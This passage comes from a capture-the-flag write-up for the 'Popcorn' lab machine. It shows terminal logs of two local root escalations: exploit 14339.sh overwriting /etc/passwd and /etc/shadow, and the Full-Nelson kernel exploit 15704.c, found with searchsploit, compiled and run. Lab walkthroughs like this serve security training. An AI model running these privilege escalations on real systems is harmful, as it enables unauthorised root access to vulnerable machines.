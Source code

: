 ```
www-data@popcorn:/tmp$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

### 'Full-Nelson.c Exploit Kernel

Also check kernel, the OS version is `2.6.31-14-generic-pae`.

```
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/issue
cat /etc/issue
Ubuntu 9.10 \n \l
```

Search exploit using `searchsploit`

```
┌──(Hades㉿10.10.14.5)-[2.2:50.4]~
└─$ searchsploit Linux Kernel 2.6 Ubuntu
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
<snip>
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full | linux/local/15704.c
<snip>
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Tranfer exploit `15704.c` to `Popcorn server`, compile and execute it, I have root.

```
www-data@popcorn:/var/www$ gcc 15704.c -o 15704
gcc 15704.c -o 15704
www-data@popcorn:/var/www$ chmod +x 15704
chmod +x 15704
www-data@popcorn:/var/www$ ./15704
./15704
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf846a280
 [+] Resolved econet_ops to 0xf846a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Failed to set Econet address.
[*] Triggering payload...
[*] Got root!
# whoami
whoami
root
```